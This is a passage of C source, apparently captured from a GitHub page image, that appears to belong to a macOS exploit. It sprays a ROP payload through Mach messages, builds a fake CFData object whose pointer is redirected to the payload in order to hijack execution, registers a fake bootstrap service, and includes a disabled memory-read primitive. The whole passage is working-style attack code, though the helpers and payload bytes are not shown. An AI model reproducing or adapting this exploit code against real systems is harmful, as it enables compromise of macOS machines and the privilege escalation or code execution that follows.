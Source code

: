 ```c
#endif

    vals = (uint64_t *)&tag2[0];
    for(int i=0;i<tagsize;i+=payload_size) {
        memcpy(&tag2[i], main_payload, payload_size);
    }

    for(int i=0; i < (tagsize/8); i++) {
        ;//vals[i] = 0x440404000 | (i * 0x10);//0xdead0000 | i;
    }
//#define LOCAL_EXP
#ifdef LOCAL_EXP
    printf("Testing ROP chain \n");
    vm_address_t payload =0x118800000;
    kern_return_t kr = vm_allocate(mach_task_self(),&payload,payload_size,0);
    CHECK_MACH_ERR(kr,"vm_allocate()");
    memcpy((void*)payload, main_payload,payload_size);

    char *buf = malloc(1000);
    memset(buf,0xcc,1000);
    CFDataRef Data = CFDataCreate(NULL,(const UInt8 *)buf,1000);
    *(uint64_t*)Data = payload;
    *(uint64_t*)((uint8_t*)Data + 0x20) =payload_address + 0x200;

    CFRelease(Data);
    exit(0);
#endif
    payload_address = 0x118800000;
    for(int i=0;i<20000;i++) {
        send_pegged_payload(service_port, (const char*)tag2, tagsize);
    }

#if 0
    printf("Looks like msgs sent ? \n");
    Iter = 1000;
    uint64_t guess = 0;

    uint64_t target = 0x118800000;
    if(!READ_MEMORY(target, 0x100, 0xdead, &guess)) {
        printf("Failed \n");
        exit(0);
    }
    Iter = 100;
    DumpHex((const void*)guess, 0x100);
#endif

}
static void setup_service_listener()
{
    kern_return_t kr;
    fake_service_port = MACH_PORT_NULL;
    mach_port_t bs = 0;

    task_get_bootstrap_port(mach_task_self(), &bs);
    kr = bootstrap_check_in(bootstrap_port,FAKE_SERVICE_NAME,&fake_service_port);
    CHECK_MACH_ERR(kr,"bootstrap_check_in");

    //printf("Service port 0x%x \n",fake_service_port);
}
void *register_fake_service(void *arg)
{
    struct hp_msg_recv msg = {0};
    kern_return_t kr = 0;
```